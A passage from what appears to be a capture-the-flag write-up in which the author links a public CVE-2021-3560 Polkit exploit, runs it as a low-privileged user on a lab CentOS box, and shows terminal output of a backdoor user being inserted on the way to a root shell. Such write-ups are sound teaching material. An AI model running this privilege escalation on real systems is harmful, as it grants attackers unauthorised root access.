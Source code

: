 Searching for exploit leads to [PolKit](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)

I'll download it then upload it to the target and run it

```
[dwight@paper lol]$ ./root.sh                                                                                                                                                                                      
                                                                                                                                                                                                                   
[!] Username set as : secnigma                                                                                                                                                                                     
[!] No Custom Timing specified.                                                                                                                                                                                    
[!] Timing will be detected Automatically                                                                                                                                                                          
[!] Force flag not set.                                                                                                                                                                                            
[!] Vulnerability checking is ENABLED!                                                                                                                                                                             
[!] Starting Vulnerability Checks...                                                                                                                                                                               
[!] Checking distribution...                                                                                                                                                                                       
[!] Detected Linux distribution as "centos"                                                                                                                                                                        
[!] Checking if Accountsservice and Gnome-Control-Center is installed                                                                                                                                              
[+] Accounts service and Gnome-Control-Center Installation Found!!                                                                                                                                                 
[!] Checking if polkit version is vulnerable                                                                                                                                                                       
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper lol]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility. 

[sudo] password for dwight: 
[dwight@paper lol]$ su - secnigma
```